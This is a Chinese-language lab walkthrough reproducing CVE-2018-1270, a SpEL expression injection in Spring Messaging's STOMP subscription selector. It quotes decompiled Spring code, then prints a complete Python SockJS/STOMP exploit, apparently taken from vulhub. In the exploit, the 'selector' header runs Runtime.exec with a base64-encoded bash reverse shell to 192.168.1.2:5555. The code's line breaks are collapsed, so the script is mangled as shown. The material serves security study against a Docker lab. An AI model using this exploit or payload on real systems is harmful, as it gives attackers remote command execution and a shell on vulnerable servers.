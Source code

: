     
    
    Expression expression = sub.getSelectorExpression();if (expression == null) {    result.add(sessionId, subId);} else {    if (context == null) {        context = new StandardEvaluationContext(message);        context.getPropertyAccessors().add(new DefaultSubscriptionRegistry.SimpMessageHeaderPropertyAccessor());    }    try {        if (Boolean.TRUE.equals(expression.getValue(context, Boolean.class))) {            result.add(sessionId, subId);        }    } catch (SpelEvaluationException var13) {        if (this.logger.isDebugEnabled()) {            this.logger.debug("Failed to evaluate selector: " + var13.getMessage());        }    } catch (Throwable var14) {        this.logger.debug("Failed to evaluate selector", var14);    }}

那么一是可以利用`sub.getSelectorExpression()`得到selector的表达式，二是利用`Boolean.TRUE.equals(expression.getValue(context,
Boolean.class))`获取表达式的值，从而造成命令执行

## 漏洞复现

进入CVE-2018-1270的docker漏洞环境

![](https://gitee.com/fuli009/images/raw/master/public/20210817102000.png)

访问http://192.168.1.10:8080/gs-guide-websocket

![](https://gitee.com/fuli009/images/raw/master/public/20210817102001.png)

这里直接使用前辈们写好的exp，注意修改一下bash命令和靶机地址即可

    
    
    #!/usr/bin/env python3import requestsimport randomimport stringimport timeimport threadingimport loggingimport sysimport json logging.basicConfig(stream=sys.stdout, level=logging.INFO) def random_str(length):    letters = string.ascii_lowercase + string.digits    return ''.join(random.choice(letters) for c in range(length))  class SockJS(threading.Thread):    def __init__(self, url, *args, **kwargs):        super().__init__(*args, **kwargs)        self.base = f'{url}/{random.randint(0, 1000)}/{random_str(8)}'        self.daemon = True        self.session = requests.session()        self.session.headers = {            'Referer': url,            'User-Agent': 'Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Trident/5.0)'        }        self.t = int(time.time()*1000)     def run(self):        url = f'{self.base}/htmlfile?c=_jp.vulhub'        response = self.session.get(url, stream=True)        for line in response.iter_lines():            time.sleep(0.5)         def send(self, command, headers, body=''):        data = [command.upper(), '\n']         data.append('\n'.join([f'{k}:{v}' for k, v in headers.items()]))                 data.append('\n\n')        data.append(body)        data.append('\x00')        data = json.dumps([''.join(data)])         response = self.session.post(f'{self.base}/xhr_send?t={self.t}', data=data)        if response.status_code != 204:            logging.info(f"send '{command}' data error.")        else:            logging.info(f"send '{command}' data success.")     def __del__(self):        self.session.close()  sockjs = SockJS('http://192.168.1.10:8080/gs-guide-websocket')sockjs.start()time.sleep(1) sockjs.send('connect', {    'accept-version': '1.1,1.0',    'heart-beat': '10000,10000'})sockjs.send('subscribe', {    'selector': "T(java.lang.Runtime).getRuntime().exec('bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMi81NTU1IDA+JjE=}|{base64,-d}|{bash,-i}')",    'id': 'sub-0',    'destination': '/topic/greetings'}) data = json.dumps({'name': 'vulhub'})sockjs.send('send', {    'content-length': len(data),    'destination': '/app/hello'}, data)

首先还是bash编码

![](https://gitee.com/fuli009/images/raw/master/public/20210817102002.png)

